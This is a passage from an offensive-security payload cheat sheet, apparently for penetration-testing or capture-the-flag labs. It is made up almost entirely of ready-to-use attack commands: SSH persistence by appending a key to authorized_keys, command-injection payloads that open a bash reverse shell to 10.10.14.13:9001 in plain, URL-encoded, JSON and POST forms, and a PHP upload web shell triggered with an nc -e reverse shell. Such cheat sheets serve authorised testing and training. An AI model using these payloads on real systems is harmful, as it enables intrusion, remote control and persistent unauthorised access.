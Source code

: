 ### SSH Key-Based Access
```bash
# Use existing private key
ssh -i /path/to/private_key user@target

# SSH with specific key and no host checking
ssh -i /path/to/key -o StrictHostKeyChecking=no user@target

# Generate SSH key pair for persistence
ssh-keygen -t rsa -f /tmp/key -N ""

# Copy public key to target (if possible)
cat /tmp/key.pub >> ~/.ssh/authorized_keys
```

### Shell Enhancement
```bash
# Set environment variables
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export SHELL=/bin/bash
export HOME=/tmp

# Enable command history
export HISTFILE=/tmp/.bash_history

# Color prompt
export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
```

---

## Web Application Payloads

### Command Injection in Web Forms
```bash
# Basic command injection
; bash -i >& /dev/tcp/10.10.14.13/9001 0>&1

# URL encoded
%3B%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.13%2F9001%200%3E%261

# In JSON
{"cmd": "; bash -i >& /dev/tcp/10.10.14.13/9001 0>&1"}

# As POST parameter
cmd=bash -c 'bash -i /dev/tcp/10.10.14.13/9001 0>&1'
```

### File Upload Shells
```php
# Simple PHP upload shell
<?php system($_GET['cmd']); ?>

# Save as shell.php and upload, then access:
# http://target.com/uploads/shell.php?cmd=nc -e /bin/bash 10.10.14.13 9001
```

---